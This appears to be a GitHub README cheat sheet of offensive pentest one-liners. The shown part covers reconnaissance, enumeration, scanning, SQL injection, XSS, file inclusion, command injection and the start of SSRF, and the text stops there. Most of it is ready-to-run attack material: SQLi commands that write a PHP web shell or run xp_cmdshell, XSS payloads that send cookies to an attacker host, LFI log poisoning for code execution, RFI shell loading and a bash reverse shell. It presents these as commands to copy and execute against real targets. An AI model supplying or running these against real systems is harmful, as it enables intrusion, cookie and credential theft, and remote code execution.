

<p align="center">
  
</p>

<p align="center">
  <b>500+ Pentest One-Liners & Commands for Every Hacking Scenario</b><br/>
  <i>Stop googling. Start hacking.</i>
</p>

<p align="center">
  <a href="https://github.com/PentesterTN/CopyHack/stargazers"></a>
  <a href="https://github.com/PentesterTN/CopyHack/network/members"></a>
  <a href="https://github.com/PentesterTN/CopyHack/blob/main/LICENSE"></a>
</p>

<p align="center">
  
  
  
</p>

<p align="center">
  <code>Recon</code> &bull; <code>SQLi</code> &bull; <code>XSS</code> &bull; <code>LFI</code> &bull; <code>RCE</code> &bull; <code>SSRF</code> &bull; <code>PrivEsc</code> &bull; <code>AD</code> &bull; <code>Cloud</code> &bull; <code>Containers</code> &bull; <code>Shells</code> &bull; <code>Cracking</code>
</p>

---

> **Every command here is battle-tested from real pentests and bug bounties.** Not theory. Not CTF tricks. Real commands that work on real targets.

## How to Use

You're mid-pentest. You popped a shell. You need a command. **NOW.**

1. Find your section below
2. Copy the command
3. Replace `TARGET`, `LHOST`, `LPORT` with your values
4. Execute

Or search from terminal:
```bash
curl -s https://raw.githubusercontent.com/PentesterTN/CopyHack/main/README.md | grep -A2 "your_keyword"
```

---

## Table of Contents

| # | Section | Commands |
|---|---------|----------|
| 01 | [Reconnaissance](#01-reconnaissance) | 60+ |
| 02 | [Subdomain Enumeration](#02-subdomain-enumeration) | 30+ |
| 03 | [Port Scanning](#03-port-scanning) | 25+ |
| 04 | [Web Fingerprinting](#04-web-fingerprinting) | 30+ |
| 05 | [Directory & File Discovery](#05-directory--file-discovery) | 30+ |
| 06 | [SQL Injection](#06-sql-injection) | 50+ |
| 07 | [Cross-Site Scripting (XSS)](#07-cross-site-scripting-xss) | 50+ |
| 08 | [Local/Remote File Inclusion](#08-localremote-file-inclusion) | 40+ |
| 09 | [Command Injection](#09-command-injection) | 30+ |
| 10 | [SSRF](#10-ssrf) | 30+ |
| 11 | [Authentication Bypass](#11-authentication-bypass) | 30+ |
| 12 | [IDOR & Access Control](#12-idor--access-control) | 25+ |
| 13 | [API Testing](#13-api-testing) | 40+ |
| 14 | [Reverse Shells](#14-reverse-shells) | 50+ |
| 15 | [File Transfer](#15-file-transfer) | 30+ |
| 16 | [Linux Privilege Escalation](#16-linux-privilege-escalation) | 80+ |
| 17 | [Windows Privilege Escalation](#17-windows-privilege-escalation) | 70+ |
| 18 | [Active Directory](#18-active-directory) | 60+ |
| 19 | [Lateral Movement & Pivoting](#19-lateral-movement--pivoting) | 40+ |
| 20 | [Cloud (AWS/GCP/Azure)](#20-cloud-awsgcpazure) | 50+ |
| 21 | [Container Escape (Docker/K8s)](#21-container-escape-dockerk8s) | 35+ |
| 22 | [Password Cracking](#22-password-cracking) | 30+ |
| 23 | [Persistence & Backdoors](#23-persistence--backdoors) | 30+ |
| 24 | [Data Exfiltration](#24-data-exfiltration) | 25+ |
| 25 | [Defense Evasion](#25-defense-evasion) | 30+ |
| 26 | [Wireless Attacks](#26-wireless-attacks) | 25+ |
| 27 | [OSINT](#27-osint) | 30+ |

---

## 01. Reconnaissance

### DNS
```bash
# All DNS records
dig TARGET ANY +noall +answer

# Zone transfer attempt
dig axfr @NS_SERVER TARGET

# Reverse DNS lookup on a range
for ip in $(seq 1 254); do host 10.10.10.$ip; done | grep -v "not found"

# DNS brute force with wordlist
for sub in $(cat /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt); do dig +short $sub.TARGET | grep -v "^$" && echo "$sub.TARGET"; done

# Get all DNS records with multiple types
for type in A AAAA CNAME MX NS TXT SOA SRV; do echo "=== $type ===" && dig $type TARGET +short; done

# DNSSEC check
dig TARGET +dnssec +short

# Find nameservers and check for open resolvers
dig NS TARGET +short | while read ns; do dig @$ns version.bind chaos txt +short 2>/dev/null && echo "  -> $ns"; done

# DNS cache snooping
dig @NS_SERVER TARGET A +norecurse

# Reverse DNS brute force for a /24
for i in $(seq 1 254); do host TARGET_NETWORK.$i | grep "name pointer" | cut -d' ' -f5; done

# PTR record lookup
dig -x IP_ADDRESS +short
```

### Whois & ASN
```bash
# Whois lookup
whois TARGET

# ASN lookup
whois -h whois.radb.net -- "-i origin AS_NUMBER" | grep -Eo "([0-9.]+){4}/[0-9]+"

# Find all IPs belonging to an organization
curl -s "https://api.bgpview.io/search?query_term=TARGET_ORG" | jq '.data.asns[].asn'

# Reverse whois by email
curl -s "https://viewdns.info/reversewhois/?q=TARGET_EMAIL" | grep -oP '[a-z0-9.-]+\.[a-z]{2,}'

# CIDR ranges for an ASN
whois -h whois.radb.net -- "-i origin ASXXXXX" | grep -Eo "([0-9.]+){4}/[0-9]+" | sort -u
```

### Technology Detection
```bash
# HTTP headers fingerprinting
curl -sI https://TARGET | grep -iE "server|x-powered|x-asp|x-generator|x-drupal|x-framework"

# Check for common tech indicators
curl -s https://TARGET | grep -ioE "(wp-content|drupal|joomla|laravel|django|angular|react|vue|next|nuxt|rails|spring|express)"

# Wappalyzer-style from CLI
whatweb https://TARGET

# SSL/TLS certificate details
echo | openssl s_client -connect TARGET:443 2>/dev/null | openssl x509 -noout -text | grep -E "Subject:|Issuer:|DNS:"

# Check HTTP methods allowed
curl -sI -X OPTIONS https://TARGET | grep "Allow:"

# Extract JavaScript framework versions
curl -s https://TARGET | grep -oP '(react|angular|vue|jquery|bootstrap)[\w.-]*\.js' | sort -u

# Identify WAF
wafw00f https://TARGET

# Check security headers
curl -sI https://TARGET | grep -iE "strict-transport|content-security|x-frame|x-content-type|x-xss|referrer-policy|permissions-policy"
```

### Email & Users
```bash
# Email harvesting with theHarvester
theHarvester -d TARGET -b all -l 500

# Extract emails from a website
curl -s https://TARGET | grep -oP '[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}'

# LinkedIn employee enumeration (passive)
curl -s "https://www.google.com/search?q=site:linkedin.com+%22TARGET%22+employees" | grep -oP 'linkedin\.com/in/[^"&]+'

# Hunter.io email finder
curl -s "https://api.hunter.io/v2/domain-search?domain=TARGET&api_key=API_KEY" | jq '.data.emails[].value'

# Check if email exists (SMTP VRFY)
echo "VRFY user@TARGET" | nc -w3 MAIL_SERVER 25

# SMTP user enumeration
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/Names/names.txt -t MAIL_SERVER

# Check for email spoofing (SPF/DMARC)
dig TXT TARGET | grep "v=spf"
dig TXT _dmarc.TARGET | grep "v=DMARC"

# Google dork for emails
# site:TARGET filetype:pdf | filetype:doc | filetype:xls
```

### Google Dorking
```bash
# Find login pages
# site:TARGET inurl:login | inurl:admin | inurl:signin

# Find sensitive files
# site:TARGET filetype:sql | filetype:env | filetype:log | filetype:bak

# Find exposed directories
# site:TARGET intitle:"index of" | intitle:"directory listing"

# Find subdomains via Google
# site:*.TARGET -www

# Find config files
# site:TARGET ext:xml | ext:conf | ext:cnf | ext:reg | ext:inf | ext:rdp | ext:cfg | ext:txt | ext:ora | ext:ini

# Find database dumps
# site:TARGET ext:sql | ext:dbf | ext:mdb

# Find exposed Git repos
# site:TARGET inurl:".git"

# Find WordPress specific
# site:TARGET inurl:wp-content | inurl:wp-includes

# Find API keys in JS
# site:TARGET ext:js "api_key" | "apikey" | "api-key"

# Find error pages with stack traces
# site:TARGET "Fatal error" | "Stack trace" | "Traceback" | "Internal Server Error"
```

### Shodan
```bash
# Basic host search
shodan host TARGET_IP

# Search by organization
shodan search "org:TARGET_ORG"

# Find specific services
shodan search "hostname:TARGET port:8080"

# Find default creds pages
shodan search "http.title:dashboard hostname:TARGET"

# Export results
shodan search "org:TARGET_ORG" --fields ip_str,port,org,hostnames --limit 1000

# Find exposed databases
shodan search "port:27017 org:TARGET_ORG"  # MongoDB
shodan search "port:6379 org:TARGET_ORG"   # Redis
shodan search "port:9200 org:TARGET_ORG"   # Elasticsearch

# Find webcams
shodan search "Server: yawcam org:TARGET_ORG"
```

---

## 02. Subdomain Enumeration

```bash
# Subfinder
subfinder -d TARGET -all -silent

# Amass passive
amass enum -passive -d TARGET

# Assetfinder
assetfinder --subs-only TARGET

# Certificate transparency logs
curl -s "https://crt.sh/?q=%25.TARGET&output=json" | jq -r '.[].name_value' | sort -u

# SecurityTrails
curl -s "https://api.securitytrails.com/v1/domain/TARGET/subdomains" -H "APIKEY: KEY" | jq -r '.subdomains[]' | sed "s/$/.TARGET/"

# Brute force with DNS resolving
cat /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt | while read sub; do
  ip=$(dig +short $sub.TARGET | head -1)
  [ -n "$ip" ] && echo "$sub.TARGET -> $ip"
done

# Combine multiple tools
(subfinder -d TARGET -silent; amass enum -passive -d TARGET 2>/dev/null; assetfinder --subs-only TARGET) | sort -u

# Check which subdomains are alive
cat subdomains.txt | httpx -silent -status-code -title

# Find subdomains from JavaScript files
cat urls.txt | grep "\.js$" | xargs -I{} curl -s {} | grep -oP '[a-zA-Z0-9_-]+\.TARGET' | sort -u

# Wayback machine subdomain discovery
curl -s "http://web.archive.org/cdx/search/cdx?url=*.TARGET/*&output=json&fl=original" | jq -r '.[1:][] | .[0]' | sed 's|https\?://||' | cut -d'/' -f1 | sort -u

# Recursive subdomain enumeration
subfinder -d TARGET -silent | while read sub; do subfinder -d $sub -silent; done | sort -u

# Find virtual hosts
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://TARGET_IP -H "Host: FUZZ.TARGET" -fs SIZE_TO_FILTER

# GitHub subdomains
curl -s "https://api.github.com/search/code?q=%22TARGET%22&per_page=100" | grep -oP '[a-z0-9_.-]+\.TARGET' | sort -u

# Rapid7 FDNS dataset (if downloaded)
zcat fdns_any.json.gz | grep "TARGET" | jq -r '.name' | sort -u

# DNSRecon
dnsrecon -d TARGET -t brt -D /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

# Gobuster DNS mode
gobuster dns -d TARGET -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 50

# Check for subdomain takeover
subjack -w subdomains.txt -t 100 -timeout 30 -ssl -a

# DNSSEC walking
nsec3walker TARGET

# Find subdomains in SPF records
dig TXT TARGET +short | grep -oP 'include:([^\s]+)' | while read inc; do echo $inc; dig TXT $(echo $inc | cut -d: -f2) +short; done
```

---

## 03. Port Scanning

```bash
# Fast full port scan
nmap -p- --min-rate=1000 -T4 TARGET -oN ports.txt

# Service version detection on found ports
nmap -sV -sC -p PORTS TARGET -oN services.txt

# UDP top ports
nmap -sU --top-ports 50 TARGET

# Masscan full port scan (fastest)
masscan -p1-65535 TARGET --rate=1000 -oL masscan.txt

# Rustscan (fast + nmap integration)
rustscan -a TARGET -- -sV -sC

# Scan through proxy/SOCKS
proxychains nmap -sT -Pn -p 80,443,8080 TARGET

# Scan for specific vulnerabilities
nmap --script vuln TARGET

# OS detection
nmap -O TARGET

# Scan entire subnet
nmap -sn 10.10.10.0/24 -oG alive.txt && grep "Up" alive.txt | cut -d' ' -f2

# Aggressive scan
nmap -A -T4 TARGET

# Firewall evasion techniques
nmap -f -D RND:5 -S SPOOF_IP TARGET  # Fragment + decoy
nmap --source-port 53 TARGET          # Source port 53 (DNS)
nmap -sN TARGET                       # NULL scan
nmap -sF TARGET                       # FIN scan
nmap -sX TARGET                       # Xmas scan

# Banner grabbing
echo "" | nc -nv TARGET PORT 2>&1 | head -5

# Quick banner grab on multiple ports
for port in 21 22 25 80 110 143 443 445 3306 3389 8080; do
  echo -n "Port $port: " && echo "" | nc -w2 -nv TARGET $port 2>&1 | head -1
done

# Scan for SMB
nmap -p 139,445 --script smb-vuln* TARGET

# Check for EternalBlue
nmap -p 445 --script smb-vuln-ms17-010 TARGET

# Network sweep with ping
fping -a -g 10.10.10.0/24 2>/dev/null

# ARP scan (local network)
arp-scan -l

# Netcat port scan
for port in $(seq 1 1000); do (echo >/dev/tcp/TARGET/$port) 2>/dev/null && echo "Port $port open"; done
```

---

## 04. Web Fingerprinting

```bash
# Full header analysis
curl -sILk https://TARGET

# Extract all links from a page
curl -s https://TARGET | grep -oP 'href="[^"]+"' | cut -d'"' -f2 | sort -u

# Find JavaScript files
curl -s https://TARGET | grep -oP 'src="[^"]*\.js"' | cut -d'"' -f2 | sort -u

# Extract API endpoints from JavaScript
curl -s https://TARGET/main.js | grep -oP '"/(api|v[0-9])/[^"]*"' | sort -u

# Check robots.txt
curl -s https://TARGET/robots.txt

# Check sitemap.xml
curl -s https://TARGET/sitemap.xml | grep -oP 'https?://[^<]+'

# Extract comments from HTML
curl -s https://TARGET | grep -oP '<!--.*?-->'

# Check for source maps
curl -s https://TARGET | grep -oP 'src="([^"]*\.js)"' | cut -d'"' -f2 | while read js; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" "https://TARGET${js}.map")
  [ "$code" = "200" ] && echo "SOURCE MAP: ${js}.map"
done

# WordPress detection & enumeration
wpscan --url https://TARGET -e ap,at,u

# Extract emails from page
curl -s https://TARGET | grep -oP '[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-z]{2,}'

# Find hidden form fields
curl -s https://TARGET | grep -oP '<input[^>]*type="hidden"[^>]*>'

# Check for CORS misconfiguration
curl -sI -H "Origin: https://evil.com" https://TARGET | grep -i "access-control"

# Detect framework from cookies
curl -sI https://TARGET | grep -i "set-cookie" | grep -ioE "(PHPSESSID|JSESSIONID|ASP.NET_SessionId|connect.sid|laravel_session|_rails|csrftoken|wp-settings)"

# Check for clickjacking
curl -sI https://TARGET | grep -i "x-frame-options"

# Extract metadata from PDF/docs
exiftool document.pdf

# Crawl and extract URLs
katana -u https://TARGET -d 3 -silent

# GAU (Get All URLs from archives)
gau TARGET --subs | sort -u

# Wayback URLs
waybackurls TARGET | sort -u

# Extract parameters from URLs
cat urls.txt | grep "?" | cut -d'?' -f2 | tr '&' '\n' | cut -d'=' -f1 | sort -u

# Find sensitive files
for file in .env .git/HEAD .svn/entries .DS_Store .htaccess wp-config.php.bak config.php.bak web.config database.yml .npmrc .dockerenv Dockerfile docker-compose.yml; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" "https://TARGET/$file")
  [ "$code" = "200" ] && echo "FOUND: $file"
done
```

---

## 05. Directory & File Discovery

```bash
# Feroxbuster (recursive, fast)
feroxbuster -u https://TARGET -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,asp,aspx,html,txt,bak -t 50

# Gobuster
gobuster dir -u https://TARGET -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 50

# FFuf
ffuf -u https://TARGET/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -mc 200,301,302,403 -t 50

# Dirsearch
dirsearch -u https://TARGET -e php,asp,aspx,html,txt,bak

# Find backup files
for ext in bak old orig save swp swo tmp ~; do
  ffuf -u https://TARGET/FUZZ.$ext -w /usr/share/seclists/Discovery/Web-Content/common.txt -mc 200 -s
done

# API endpoint discovery
ffuf -u https://TARGET/api/FUZZ -w /usr/share/seclists/Discovery/Web-Content/api/api-endpoints.txt -mc 200,201,401,403

# Find hidden parameters
arjun -u https://TARGET/page

# Recursive gobuster
gobuster dir -u https://TARGET -w /usr/share/wordlists/dirb/common.txt -r -t 50 --wildcard

# IIS specific
gobuster dir -u https://TARGET -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -x asp,aspx,config

# WordPress specific
gobuster dir -u https://TARGET -w /usr/share/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt

# Find config files
ffuf -u https://TARGET/FUZZ -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt -mc 200

# Virtual host discovery
ffuf -u http://TARGET -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.TARGET" -fs SIZE

# 403 Bypass techniques
for path in "/ENDPOINT" "/ENDPOINT/" "/ENDPOINT/." "/./ENDPOINT/./" "//ENDPOINT//" "/ENDPOINT%20" "/ENDPOINT%09" "/ENDPOINT..;/" "/ENDPOINT;/" "/ENDPOINT.json"; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" "https://TARGET$path")
  echo "$code $path"
done

# 403 Bypass with headers
for header in "X-Original-URL: /ENDPOINT" "X-Rewrite-URL: /ENDPOINT" "X-Forwarded-For: 127.0.0.1" "X-Custom-IP-Authorization: 127.0.0.1" "X-Real-IP: 127.0.0.1"; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" -H "$header" "https://TARGET/ENDPOINT")
  echo "$code $header"
done

# HTTP method fuzzing
for method in GET POST PUT DELETE PATCH OPTIONS HEAD TRACE CONNECT; do
  code=$(curl -sk -o /dev/null -w "%{http_code}" -X $method "https://TARGET/ENDPOINT")
  echo "$code $method"
done

# Find .git exposed and dump it
git-dumper https://TARGET/.git/ output_dir

# Nuclei scanning
nuclei -u https://TARGET -t /usr/share/nuclei-templates/ -severity critical,high
```

---

## 06. SQL Injection

### Detection
```bash
# Basic error-based test
curl -s "https://TARGET/page?id=1'" | grep -iE "sql|syntax|mysql|ora-|postgresql|sqlite|microsoft|warning"

# Boolean-based detection
# TRUE: https://TARGET/page?id=1 AND 1=1
# FALSE: https://TARGET/page?id=1 AND 1=2
# Compare response sizes:
curl -s "https://TARGET/page?id=1 AND 1=1" | wc -c
curl -s "https://TARGET/page?id=1 AND 1=2" | wc -c

# Time-based detection
time curl -s "https://TARGET/page?id=1; WAITFOR DELAY '0:0:5'--"  # MSSQL
time curl -s "https://TARGET/page?id=1' AND SLEEP(5)--"           # MySQL
time curl -s "https://TARGET/page?id=1'; SELECT pg_sleep(5)--"    # PostgreSQL

# UNION-based column count
for i in $(seq 1 20); do
  cols=$(python3 -c "print(','.join(['NULL']*$i))")
  code=$(curl -sk -o /dev/null -w "%{http_code}" "https://TARGET/page?id=1' UNION SELECT $cols--")
  echo "Columns $i: HTTP $code"
done

# URL-encoded payloads
curl -s "https://TARGET/page?id=1%27%20OR%201%3D1--%20"

# Double URL encoding
curl -s "https://TARGET/page?id=1%2527%2520OR%25201%253D1--%2520"

# JSON body SQLi
curl -s -X POST https://TARGET/api/login -H "Content-Type: application/json" -d '{"user":"admin'\'' OR 1=1--","pass":"x"}'

# Header-based SQLi
curl -s https://TARGET -H "X-Forwarded-For: 1' OR 1=1--"
curl -s https://TARGET -H "User-Agent: 1' OR 1=1--"
curl -s https://TARGET -H "Referer: 1' OR 1=1--"
curl -s https://TARGET -b "cookie=1' OR 1=1--"
```

### Exploitation with SQLmap
```bash
# Basic sqlmap
sqlmap -u "https://TARGET/page?id=1" --batch --dbs

# POST request
sqlmap -u "https://TARGET/login" --data="user=admin&pass=test" --batch --dbs

# With cookies
sqlmap -u "https://TARGET/page?id=1" --cookie="session=ABC123" --batch --dbs

# Specific parameter
sqlmap -u "https://TARGET/page?id=1&name=test" -p id --batch --dbs

# Through proxy
sqlmap -u "https://TARGET/page?id=1" --proxy="http://127.0.0.1:8080" --batch --dbs

# Dump specific table
sqlmap -u "https://TARGET/page?id=1" -D database -T users --dump --batch

# OS shell
sqlmap -u "https://TARGET/page?id=1" --os-shell --batch

# File read
sqlmap -u "https://TARGET/page?id=1" --file-read="/etc/passwd" --batch

# Tamper scripts for WAF bypass
sqlmap -u "https://TARGET/page?id=1" --tamper=space2comment,between,randomcase --batch --dbs

# Level and risk increase
sqlmap -u "https://TARGET/page?id=1" --level=5 --risk=3 --batch --dbs

# Second order SQLi
sqlmap -u "https://TARGET/page?id=1" --second-url="https://TARGET/result" --batch --dbs

# From Burp request file
sqlmap -r request.txt --batch --dbs
```

### Manual Exploitation
```bash
# MySQL - Extract version
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,version(),NULL--"

# MySQL - List databases
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,group_concat(schema_name),NULL FROM information_schema.schemata--"

# MySQL - List tables
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,group_concat(table_name),NULL FROM information_schema.tables WHERE table_schema='DB_NAME'--"

# MySQL - List columns
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,group_concat(column_name),NULL FROM information_schema.columns WHERE table_name='TABLE_NAME'--"

# MySQL - Extract data
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,group_concat(username,0x3a,password),NULL FROM users--"

# MySQL - Read file
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,LOAD_FILE('/etc/passwd'),NULL--"

# MySQL - Write file (into outfile)
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,'<?php system(\$_GET[cmd]); ?>',NULL INTO OUTFILE '/var/www/html/shell.php'--"

# MSSQL - Extract version
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,@@version,NULL--"

# MSSQL - RCE via xp_cmdshell
curl -s "https://TARGET/page?id=1'; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE; EXEC xp_cmdshell 'whoami'--"

# PostgreSQL - Extract version
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,version(),NULL--"

# PostgreSQL - Read file
curl -s "https://TARGET/page?id=1'; COPY (SELECT '') TO PROGRAM 'curl http://LHOST/$(whoami)'--"

# SQLite - List tables
curl -s "https://TARGET/page?id=1' UNION SELECT NULL,group_concat(name),NULL FROM sqlite_master WHERE type='table'--"

# Blind Boolean extraction (one char at a time)
for i in $(seq 1 50); do
  for c in $(seq 32 126); do
    char=$(printf "\\x$(printf '%02x' $c)")
    resp=$(curl -s "https://TARGET/page?id=1' AND SUBSTRING(version(),$i,1)='$char'--" | wc -c)
    [ "$resp" -gt "BASELINE" ] && echo -n "$char" && break
  done
done
```

---

## 07. Cross-Site Scripting (XSS)

### Detection
```bash
# Basic reflected XSS test
curl -s "https://TARGET/search?q=<script>alert(1)</script>" | grep "<script>alert(1)</script>"

# Test in all parameters
# Replace PARAM with parameter name
curl -s "https://TARGET/page?PARAM=xss%22%3E%3Cscript%3Ealert(1)%3C/script%3E"

# POST-based XSS
curl -s -X POST https://TARGET/form -d 'input=<script>alert(1)</script>'

# DOM XSS detection (look for dangerous sinks in JS)
curl -s https://TARGET | grep -oP '(document\.write|innerHTML|outerHTML|eval\(|setTimeout\(|setInterval\(|location\.href|location\.assign|\.src\s*=|\.href\s*=)[^;]*'
```

### Payloads - Basic
```html
<script>alert(1)</script>

<svg onload=alert(1)>
<body onload=alert(1)>
<details open ontoggle=alert(1)>
<marquee onstart=alert(1)>
<video src=x onerror=alert(1)>
<audio src=x onerror=alert(1)>
<input onfocus=alert(1) autofocus>
<select onfocus=alert(1) autofocus>
<textarea onfocus=alert(1) autofocus>
<math><mtext></mtext><mglyph><svg><mtext><style></style></mtext></svg></mglyph></math>
```

### Payloads - Filter Bypass
```html
<!-- Case variation -->
<ScRiPt>alert(1)</ScRiPt>


<!-- Encoding -->
<script>alert(String.fromCharCode(88,83,83))</script>


<!-- Double encoding -->
%253Cscript%253Ealert(1)%253C%252Fscript%253E

<!-- Unicode -->
<script>\u0061lert(1)</script>

<!-- Without parentheses -->
<script>alert`1`</script>


<!-- Without alert -->
<script>confirm(1)</script>
<script>prompt(1)</script>
<script>print()</script>
<script>window['al'+'ert'](1)</script>
<script>self['al'+'ert'](1)</script>
<script>top[/al/.source+/ert/.source](1)</script>

<!-- Without angle brackets -->
" onfocus="alert(1)" autofocus="
' onfocus='alert(1)' autofocus='
" onmouseover="alert(1)" style="position:fixed;top:0;left:0;width:100%;height:100%"

<!-- Without quotes -->
<script>alert(/XSS/.source)</script>


<!-- SVG-based -->
<svg/onload=alert(1)>
<svg><script>alert(1)</script></svg>
<svg><animate onbegin=alert(1) attributeName=x>

<!-- Event handlers without user interaction -->

<body onload=alert(1)>
<svg onload=alert(1)>
<object data="javascript:alert(1)">
<iframe src="javascript:alert(1)">
<embed src="javascript:alert(1)">

<!-- Polyglot XSS -->
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//
```

### Cookie Stealing
```html
<!-- Send cookies to attacker server -->
<script>document.location='http://LHOST/?c='+document.cookie</script>
<script>fetch('http://LHOST/?c='+document.cookie)</script>
<script>new Image().src='http://LHOST/?c='+document.cookie</script>

```

### Stored XSS Testing
```bash
# Test in profile/username fields
curl -s -X POST https://TARGET/profile -H "Cookie: session=TOKEN" -d 'nickname=<script>alert(1)</script>'

# Test in comments/reviews
curl -s -X POST https://TARGET/comment -H "Cookie: session=TOKEN" -d 'body='

# Test in file upload (SVG with XSS)
echo '<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>' > xss.svg
curl -s -X POST https://TARGET/upload -F "file=@xss.svg" -H "Cookie: session=TOKEN"

# Test in markdown
curl -s -X POST https://TARGET/post -d 'content=[Click me](javascript:alert(1))'
```

---

## 08. Local/Remote File Inclusion

### LFI Detection & Exploitation
```bash
# Basic LFI test
curl -s "https://TARGET/page?file=../../../etc/passwd"
curl -s "https://TARGET/page?file=....//....//....//etc/passwd"

# Null byte bypass (old PHP)
curl -s "https://TARGET/page?file=../../../etc/passwd%00"

# Double URL encoding
curl -s "https://TARGET/page?file=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"

# PHP wrapper - base64 read
curl -s "https://TARGET/page?file=php://filter/convert.base64-encode/resource=config.php" | base64 -d

# PHP wrapper - RCE
curl -s -X POST "https://TARGET/page?file=php://input" -d "<?php system('id'); ?>"

# Data wrapper RCE
curl -s "https://TARGET/page?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id"

# Expect wrapper RCE
curl -s "https://TARGET/page?file=expect://id"

# Log poisoning (Apache)
curl -s https://TARGET -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
curl -s "https://TARGET/page?file=../../../var/log/apache2/access.log&cmd=id"

# Log poisoning (Nginx)
curl -s "https://TARGET/page?file=../../../var/log/nginx/access.log&cmd=id"

# Log poisoning (SSH)
ssh '<?php system($_GET["cmd"]); ?>'@TARGET
curl -s "https://TARGET/page?file=../../../var/log/auth.log&cmd=id"

# /proc/self/environ
curl -s "https://TARGET/page?file=../../../proc/self/environ" -H "User-Agent: <?php system('id'); ?>"

# Interesting files to read (Linux)
for file in /etc/passwd /etc/shadow /etc/hosts /etc/hostname /proc/version /proc/self/environ /proc/self/cmdline /proc/net/tcp /home/*/.ssh/id_rsa /home/*/.bash_history /var/log/auth.log /var/log/apache2/access.log; do
  resp=$(curl -s "https://TARGET/page?file=../../../..$file" | wc -c)
  [ "$resp" -gt "0" ] && echo "FOUND: $file ($resp bytes)"
done

# Interesting files to read (Windows)
for file in "C:/Windows/System32/drivers/etc/hosts" "C:/Windows/win.ini" "C:/inetpub/wwwroot/web.config" "C:/Windows/repair/SAM"; do
  resp=$(curl -s "https://TARGET/page?file=$file" | wc -c)
  [ "$resp" -gt "0" ] && echo "FOUND: $file ($resp bytes)"
done

# Path traversal depth fuzzing
for i in $(seq 1 10); do
  traversal=$(printf '../%.0s' $(seq 1 $i))
  resp=$(curl -s "https://TARGET/page?file=${traversal}etc/passwd" | grep -c "root:")
  [ "$resp" -gt "0" ] && echo "FOUND at depth $i" && break
done
```

### RFI (Remote File Inclusion)
```bash
# Basic RFI
curl -s "https://TARGET/page?file=http://LHOST/shell.php"

# SMB share (Windows target)
curl -s "https://TARGET/page?file=\\\\LHOST\\share\\shell.php"

# PHP wrapper with RFI
curl -s "https://TARGET/page?file=http://LHOST/shell.txt"

# FTP RFI
curl -s "https://TARGET/page?file=ftp://LHOST/shell.php"
```

---

## 09. Command Injection

```bash
# Basic tests
curl -s "https://TARGET/ping?ip=127.0.0.1;id"
curl -s "https://TARGET/ping?ip=127.0.0.1|id"
curl -s "https://TARGET/ping?ip=127.0.0.1||id"
curl -s "https://TARGET/ping?ip=127.0.0.1&&id"
curl -s "https://TARGET/ping?ip=`id`"
curl -s "https://TARGET/ping?ip=\$(id)"
curl -s "https://TARGET/ping?ip=127.0.0.1%0aid"  # Newline

# Out-of-band detection
curl -s "https://TARGET/ping?ip=127.0.0.1;curl+http://LHOST/"
curl -s "https://TARGET/ping?ip=127.0.0.1;nslookup+LHOST"
curl -s "https://TARGET/ping?ip=127.0.0.1;wget+http://LHOST/"

# Blind command injection with time delay
time curl -s "https://TARGET/ping?ip=127.0.0.1;sleep+5"
time curl -s "https://TARGET/ping?ip=127.0.0.1|sleep+5"

# Space bypass
curl -s "https://TARGET/ping?ip=127.0.0.1;cat\$IFS/etc/passwd"
curl -s "https://TARGET/ping?ip=127.0.0.1;{cat,/etc/passwd}"
curl -s "https://TARGET/ping?ip=127.0.0.1;cat%09/etc/passwd"  # Tab
curl -s "https://TARGET/ping?ip=127.0.0.1;cat<>/etc/passwd"

# Keyword bypass
curl -s "https://TARGET/ping?ip=127.0.0.1;c\at+/etc/passwd"
curl -s "https://TARGET/ping?ip=127.0.0.1;ca\$()t+/etc/passwd"
curl -s "https://TARGET/ping?ip=127.0.0.1;/???/??t+/???/??????"  # Wildcard

# Reverse shell via command injection
curl -s "https://TARGET/ping?ip=127.0.0.1;bash+-c+'bash+-i+>%26+/dev/tcp/LHOST/LPORT+0>%261'"
```

---

## 10. SSRF

```bash
# Basic SSRF
curl -s "https://TARGET/fetch?url=http://169.254.169.254/latest/meta-data/"

# Bypass localhost filters
curl -s "https://TARGET/fetch?url=http://127.1/"
curl -s "https://TARGET/fetch?url=http://0.0.0.0/"
curl -s "https://TARGET/fetch?url=http://0x7f000001/"
curl -s "https://TARGET/fetch?url=http://2130706433/"  # Decimal
